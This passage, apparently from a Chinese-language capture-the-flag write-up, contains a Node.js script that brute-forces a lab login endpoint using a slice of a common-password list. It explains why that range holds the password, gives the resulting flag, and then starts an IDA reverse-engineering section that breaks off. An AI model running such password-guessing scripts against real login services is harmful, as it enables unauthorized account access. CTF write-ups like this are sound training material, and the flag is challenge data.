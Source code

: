 ```js
    redirect: 'follow'
  };

  fetch('http://10.10.175.247:33708/login', requestOptions)
    .then((response) => response.text())
    .then((result) => console.log(result))
    .catch((error) => console.log('error', error));
};

async function boom() {
  try {
    const data = fs.readFileSync('top10000.txt', 'UTF-8');
    const lines = data.split(/r?n/);
    for (let i = 3333; i <= 6666; i++) {
      await tryIt(lines[i]);
    }
  } catch (err) {
    console.error(err);
  }
}

boom();
```

然后 node main.mjs 即可运行该暴力破解脚本

这里使用的 top10000.txt 文件的第 3333 行到第 6666 行，是因为在源码中

```python
with open("./top10000.txt", "r") as fp:
    password = fp.read().split("n")[randint(3333, 6666)]
```

密码正是这个范围中的一个，所以这么尝试可以减少试错次数

暴力测试过程中即可得到本题的 flag：<span style="color: #2a8dd5">tjctf{ARe_yoU_HAPPY_W1TH_c4ptCh@-FhQgnesGBaHTs}</span>

看到 flag 出现时，直接 crtl+c 结束即可

![](/images/2023/053.png)

## **Reverse**

### **10. 天狗教你用 IDA**

![](/images/2023/054.png)

解题思路：下载得到的附件其实是一个编译后的二进制文件，按照题目下载安装一个 IDA 软件

然后在 IDA 软件中打开这个二进制文件：

![](/images/2023/055.png)
